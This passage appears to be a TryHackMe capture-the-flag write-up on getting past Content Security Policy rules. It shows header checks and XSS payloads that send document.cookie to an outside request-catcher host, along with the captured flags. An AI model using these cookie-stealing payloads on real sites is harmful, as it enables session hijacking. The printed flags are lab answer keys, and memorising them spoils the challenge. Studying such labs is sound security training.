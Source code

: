 
*THM{Us1ng_data:_1snt_Any_S4fer}*

Flag for attack-3  

```
┌──(kali㉿kali)-[~/nappy]
└─$ curl http://34.243.75.161:3003/ -I
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Security-Policy: default-src 'none'; img-src *; style-src 'self'; script-src 'unsafe-inline'
Content-Type: text/html; charset=utf-8
Content-Length: 390
ETag: W/"186-Tk8eKoRn272qfFoaFdWERRH8q5I"
Date: Thu, 12 Jan 2023 01:29:18 GMT
Connection: keep-alive

enter text:
<script>(new Image()).src = `https://witty.free.beeceptor.com/${encodeURIComponent(document.cookie)}`</script>

or

<IMG id="witty" src="">
<script>document.getElementById('witty').src="https://witty.free.beeceptor.com/" + document.cookie;</script>


GET `/flag%3DTHM%7BTh4ts_N0t_4n_1m4ge!!%7D`

200 0.0s a few seconds ago

flag=THM{Th4ts_N0t_4n_1m4ge!!}

```

*THM{Th4ts_N0t_4n_1m4ge!!}*

Flag for attack-4  

```
┌──(kali㉿kali)-[~/nappy]
└─$ curl http://34.243.75.161:3004/ -I
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Security-Policy: default-src 'none'; style-src * 'self'; script-src 'nonce-abcdef'
Content-Type: text/html; charset=utf-8
Content-Length: 390
ETag: W/"186-k9TfFAl9EuH3JyjY2OwJDOKF5g0"
Date: Thu, 12 Jan 2023 01:44:48 GMT
Connection: keep-alive

<script nonce="abcdef">eval(document.location='https://witty.free.beeceptor.com/'.concat(document.cookie))</script>

or

<link id="witty" rel=stylesheet href="" /><script nonce="abcdef">document.getElementById('witty').href="https://witty.free.beeceptor.com/" + document.cookie;</script>

GET `/flag=THM%7BStyle_Y0ur_W3bs1teS%7D`

200 0.0s 3 minutes ago

flag=THM{Style_Y0ur_W3bs1teS}
```